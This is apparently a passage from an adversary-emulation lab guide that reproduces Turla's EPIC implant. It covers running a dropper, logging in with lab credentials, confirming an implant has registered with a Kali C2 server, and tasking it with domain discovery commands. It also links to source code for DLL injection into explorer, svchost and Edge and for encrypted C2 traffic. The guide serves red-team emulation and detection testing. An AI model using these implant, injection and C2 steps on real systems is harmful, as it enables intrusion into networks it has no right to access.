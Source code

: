 * Double click on the downloaded `NFVersion_5e.exe` to run it.

* Wait 1 minute for it to finish running.

* Close out of all tabs and sign out of your RDP session.

* Re-RDP to `Azuolas (10.100.40.103)` as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

* Open Microsoft Edge and browse to `https://drebule.nk.local/owa`. Log in as `Egle`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Egle  | Producer1! |

:arrow_right: **Set a timer for 2 minutes** then switch to your Kali control server terminal and
confirm that a new implant has registered and the automated discovery output has been returned in
the server log.

**NOTE:** The injector will wait **2 minutes**, before injecting EPIC's Guard DLL into explorer.exe
and, subsequently, EPIC's worker DLL into Microsoft Edge. 


* Within the terminal window, split your terminal horizontally via right-click -> split terminal. Be careful not to accidentally terminate the control server.

* In your lower terminal tab, task the EPIC implant with the following set of discovery commands:

```bash
cd /opt/day2/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | systeminfo && net group "Domain Computers" /domain'
```

---

### :moyai: Source Code

* [EPIC Dropper](SimpleDropper.)
  * [File write of EPIC injector](Source.cpp#L34-L50)
  * [Registry modification](Source.cpp#L95-L143)
* [EPIC Injector](reflective_injector.)
  * Extract EPIC Guard DLL from resources section [FindResourceW](Source.cpp#L161-L193)
  * Targeting explorer.exe for [DLL injection](Source.cpp#L199-L233)
* [EPIC Guard](reflective-guard.)
  * Extract EPIC payload DLL from resources section [FindResourceW](dllmain.cpp#L161-L193)
  * Targeting svchost.exe for payload [DLL injection](dllmain.cpp#L235-L283)
* [EPIC Payload](payload.) (in msedge.exe)
  * Execute commands [ExecCmd](epic.cpp#L47-L71)
  * User discovery [GetAllUsers](epic.cpp#L111-L182)
  * Directory discovery [DirectoryDiscovery](epic.cpp#L257-L298)
  * Write results to log file [WriteResults](epic.cpp#L311-L345)
  * C2 communications are:
    * [bzip2 compressed](comms.cpp#L462-L469)
    * [AES encrypted](comms.cpp#L483-L484)
    * [RSA encrypted AES key](comms.cpp#L487-L497)
    * [base64 encoded](comms.cpp#L505)
  * C2 communications are over [HTTPS](comms.cpp#L421-L458), [HTTPS specific flags](comms.cpp#L167-L196)
